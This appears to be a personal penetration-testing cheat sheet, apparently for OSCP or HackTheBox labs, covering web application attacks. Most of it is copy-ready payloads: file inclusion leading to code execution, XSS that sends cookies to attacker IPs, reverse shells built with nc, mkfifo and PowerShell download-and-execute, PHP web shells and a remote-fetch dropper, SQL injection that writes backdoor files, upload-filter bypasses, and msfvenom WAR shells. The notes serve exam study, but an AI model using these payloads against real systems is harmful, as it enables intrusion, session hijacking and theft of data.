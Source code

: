 Web Application Attacks:
	Always try to Find the Application Version!!
  Tools:
    burpsuite (set up w/ foxyproxy extension)
    cookie editor extension
  Things to Check:
  	Source code
		comments, urls, hard-coded credentials, functions, etc.
    	Browser Dev Tools->Network Headers->Response Headers->server versions, etc.
	Cookies
	Requests & responses in burpsuite -> try to break things & produce errors
	Input boxes:
		code injection
		sql injection
		xss
	URLs: look for strange parameters, file extensions, etc.
	Anywhere to upload files? - profile picture, plugins, etc.

Admin Consoles:
        look up default credentials
	See password attacks page
		brute force, try scraping from website
		Creating brute-force password lists: Crunch, Cewl (website-crawler)
		Scraping emails from website:  cewl -n -e --email_file mailid.txt http://sneakycorp.htb
	PHP login bypass in burpsuite:  username=admin&password[]=

Input Boxes:
	Code injection test: ; id
	SQLI Test: ' or "

	?code=phpinfo()
	?code=system('id'); (if single line output)
	?code=echo shell_exec('/sbin/ifconfig eth0'); (if multiple line output)

URL Manipulation:
    LFI:  actually executes the file; 'include' statement means code is executed            
        ex. ?page=/../../../../../etc/passwd OR ?file=c:\windows\system32\drivers\etc\hosts 
        See LFI Interesting Files
		Windows:  https://notchxor.github.io/oscp-notes/4-win-privesc/15-LFI-FILES/
        Tip: put %00 at end:  ex. http://target.com/?page=./../../../../../../../../../etc/passwd%00
        LFI Cheat Sheat/reverse shell methods:  https://highon.coffee/blog/lfi-cheat-sheet/
	PHP Wrapper Method:
            http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
    LFI TO RCE:
        Log poisoning
            See what logs you can include, then figure out how to get that service to log your request
            ex. log into ftp server with user of '<? php system($_GET['cmd']); ?>' , then lfi the var/log/vsftpd.log
            /var/log/apache2/access.log:   `nc 1.1.1.1 80, then GET /<?php system($_GET['cmd']);?>`
            /proc/self/environ: use burp (https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) to send malicious url with a modified user-agent
            Windows: `?file=c:\xampp\apache\logs\access.log&cmd=ipconfig   nc -nv 1.1.1.1 80 ,   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
            Email method:  https://bitvijays.github.io/LFC-VulnerableMachines.html
	    LFI log contamination tactic: connect w/:  nc -nv 10.11.0.22 80, then send:  <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
            then:  http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
    RFI:
    	ex. make and host a local evil.txt file:  <?php echo shell_exec($_GET['cmd']); ?>
                http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
        Try shell saved as .txt, .php, etc. - see what type of scripts the site uses
        works if allow_url_fopen and allow_url_include both = On in the file /etc/php5/cgi/php.ini -- php.ini location is seen in phpinfo.php file
        ex. Using reverse.txt php shell:  `?page=http://1.2.3.4/reverse.txt?  OR:  ?page=http://1.2.3.4/reverse.txt%00`
  
XSS:
	If you can execute reflected or stored .js code
	3 types: persistent/stored, reflected, DOM based
        	Stored: look for comments, reviews, user profile, guestbook, contact form, etc.
        	Reflected: search box, etc.
	Checks:
		Cheat Sheet:  https://www.jb51.net/tools/xss.htm
        	Look for unsanitized input that is displayed as output; characters to try:  < > ' " { } ;  -> Check Source Code; see how they're stored
		Try javascript code in all input boxes, username/password (if displays incorrect username), search (if results display the searched keywords) -- or URLs
        	Basic payload:  <script>alert(‘XSS’)</script>
        Tools:
        	Beef Framework
	Techniques & Payloads:
		Test:  <script>alert("XSS")</script>
		Script:  <img src="10.10.14.18/test.jpg" /> <script src="http://10.10.14.18/test.js"></script>
		Steal Cookie (if Secure and HTTPOnly flags not set):
			Example 1:  <script>new Image().src="http://10.10.28.40:8000/cool.jpg?output="+document.cookie;</script> ; sudo nc -nvlp 80
			Example 2:  <script>document.location="http://10.10.14.18 username="+document.cookie;</script>
			Example 3:
				function pwn() {
				    var img = document.createElement("img");
				    img.src = "http://10.10.14.18/xss?=" + document.cookie;
				    document.body.appendChild(img);
				}
				pwn();
				<script src="http://10.10.14.18/xss.js"></script>
				python -m SimpleHTTPServer 80
		Reverse Shell:  <img src=http://10.10.15.25/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.15.25'$IFS'4444')>
		Windows Reverse Shell (if the website can run the dir command):
			Method 1:  <script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18:80/mini-reverse.ps1')");</script>
			Better Method:  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe -o payload.exe
				<script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.18:80/payload.exe','C:/temp/payload.exe')");</script>	
		Session Hijack (upload BEEF hook): <script src="http://1.2.3.4:3000/hook.js"></script>  (copy from beef program)
		
XSRF: 
	If you can get a user to click a link
	See if you have a password reset form, etc. that can be submitted via url -- make the admin account click it and change to your desired password
		ex. http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit ; Confirm: nc -nvlp 80; http://<yourIP>/complete

Server-Side Template Injection: 
	If you can inject content into a page's source code
	Methodology:  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology
	Example:  https://shubham-singh.medium.com/doctor-htb-walkthrough-70bcb9eedefd 

SQL Injection:
        when queries are sent to a database for execution
        Test: see if ' causes errors in any field
            see if ?cod=1+and+2=2  still displays correctly
                column counting:  cod=1+union+select+1,2
                room.php?cod=1+union+select+1,2,3,4,5,6,'<?php_system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
        Authentication bypass:
            tom' or 1=1;#
	    admin' or 1=1-- -
            if multiple row error:   tom' or 1=1 LIMIT 1;#
        SEE HOW DATA IS DISPLAYED, then extract:
        1. column number enumeration:
            ?id=1 order by 1;    -----increment until error
        2. do a union (but w/ same # of columns):
            ex. if 4 columns:   ?id=1 union all select 1, 2, 3
        Then extract data (for mariadb at least):  union all select 1, 2, @@version,  union all select 1, 2, user(),  
        union all select 1, 2, table_name from information_schema.tables
            union all select 1, 2, column_name from information_schema.columns where table_name='users'
            ?id=1 union all select 1, username, password from users
        Read File:  ?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
        Make Backdoor:  ?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
            access:  10.11.0.22/backdoor.php?cmd=ifconfig
        WINDOWS: create admin user and add user to RDP group (see PWK lab notes)
        Automated: sqlmap (NO OSCP)
            sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
                all data:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump
                Shell:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell



SQL Injections:
SQL command LFI/reverse shell:  add field in table with value:  <?php system($_REQUEST["cmd"]);?>
CHEAT SHEET test cmds:  https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/ or  https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html
Select * from accounts where username='$user' and password='$pass'
Figure out which input fields are injectable by trying to break them:
'
"
Comment: # (MySQL) or -- (standard SQL)
Try adding true and false and statements after your input to see if injectable.
username:  admin'#
password:   abc' OR 1=1#
abc' OR 1=1--
0' or '0'='0
See how many columns are returned, then return other things:
0' or 1=1 UNION SELECT null, version() #
0' or 1=1 UNION SELECT user(), database() #
*See SQL functions file
Other tables:  0' or 0=0 UNION SELECT table_schema, table_name from information_schema.tables #
Tables and columns:  0' or 0=0 UNION SELECT 1,concat(table_name,char(58),column_name) from information_schema.columns #
Then get values:  0' or 0=0 UNION SELECT user, password from tikiwiki195.tiki_users #

Writing to file/getting RCE/shell:  Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#


union

Watch for URL parameters--try to inject (after http encoding it)
Figure out how many columns are selected (increase number until error): &username=zaid' order by 1# --> &username=zaid' order by 1%23
Determine table names, then column names
ex. If 5 columns:  &username=zaid' union select 1,2,3,4,5%23 (shows where things are displayed) (Displays anything:) &username=zaid' union select 1,database(),user(),version(),5%23
	table names:  union select 1,table_name,null,null,5 from information_schema.tables	  where table_schema = 'tableName1'
	column names in a table:  union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'
	fields:  union select 1,username,password,is_admin,5 from accounts
Reading/writing any file from database:
	union select null,load_file('/etc/passwd'),null,null,null
	union select null,'example text',null,null,null into outfile '/var/www/mutillidae/example.txt'   (or to /tmp/example.txt)

**Automated SQL Tool: SQLMap
	Scan parameters: sqlmap -u "full url w/ parameters"
	Many options: sqlmap --help
	******SQLMAP SHELL:  sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" --os-shell


**NOSQL INJECTION: in burp, try: username[$ne]=..., password[$ne]=...
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
If injection succeeds, enumerate accounts with: https://raw.githubusercontent.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/master/nosqli-user-pass-enum.py
python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep username
then: python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep password

	
	
	
	
Web Shells:
webshell.php:  <?php echo shell_exec($_GET['cmd']); ?>
	http://127.0.0.1/webshell.php?cmd=id
	http://127.0.0.1/wordpress/?cmd=nc [IP attack box] [port] -e /bin/sh
<?php system($_GET["cmd"]); ?>
<? passthru($_GET["cmd"]); ?>


-Insert code into Wordpress/Joomla theme file
-if blocked, try common port like 80 or 443
-URL encoding of characters

Example:
	smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put cmd.php cmd.php'
	curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=whoami
	smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put nc.exe nc.exe'
	curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=nc.exe+-e+cmd.exe+10.10.14.3+443


File Upload:
	General Upload Test:  `davtest -url http://10.10.10.15`
	Filter Bypass:
		https://book.hacktricks.xyz/pentesting-web/file-upload
		- Rename:
			Try upload as shell.php.jpg or shell.php%00.jpg or shell.jpg.php
			.php, .pht, .phtml, .php3, .php4, .php5, .inc
			.asp, .aspx
			.pl, .pm, .cgi, .lib
			.jsp, .jspx, .jsw, .jsv, .jspf
			.cfm, .cfml, .cfc, .dbm
		- Rename after uploading (ex. upload as .html, then move to .aspx):
			    - Upload file with curl:  `curl http://10.10.10.15/ --upload-file shell.txt`
				- or:   `curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php`
			- Move/Rename file:  `curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt`
				- ex.  `curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt`
		-Bypass MIME type validation:
			Burpsuite: modify POST request Content-Type header
			Edit magic bytes:  echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime.php.png
				Or:  add before shellcode: `GIF89a;`
		-Image Hidden PHP Code (bypasses getimagesize() validation):
			w/ Gimp--put code in properties/comments 
			exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
	ex. PHP code in image:
		cp original.png ./shell.php.png
		echo '<?php' >> ./shell.php.png
		echo 'passthru("whoami");' >> ./shell.php.png
		#echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f");' >> ./shell.php.png
			Or: echo 'system($_REQUEST["cmd"]);' >> ./shell2.php.png
		echo '?>' >> ./shell.php.png
		visit example.com/uploads/shell.php.png or example.com/uploads/shell.php.png?cmd=id





  
  

PHP Injection:
<?php if (isset($_REQUEST[‘fupload’])) { file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); }; if (isset($_REQUEST[‘fexec’])) { echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; }; ?>
access it: <filename>.php?fupload=nc.exe (for example) and <filename>.php?fexec=nc IP PORT
Linux Reverse Shell:  http://pentestmonkey.net/tools/web-shells/php-reverse-shell
Windows Reverse Shell:  https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php
  
  
  
  
  
Specific Applications/Techniques:
	PHPMyAdmin:
		in sql console:  select * from webappdb.users;
		make a user:  insert into webappdb.users(password, username) VALUES (”backdoor“,”backdoor“);

	Tomcat Web Application Manger War Shell Upload:
		msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=4444 -f war -o pwn.war
		***: curl -T "pwn.war" -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/miao&update=true"
		Or automate with:  https://github.com/mgeeky/tomcatWarDeployer
		python autowar.py http://10.10.10.95:8080 -U tomcat -P s3cret -H <attacking machine IP> -P 4321
	CGI-BIN Directory: look for .sh scripts (Shellshock vulnerability):
		dirb http://10.10.10.56/cgi-bin -X .sh
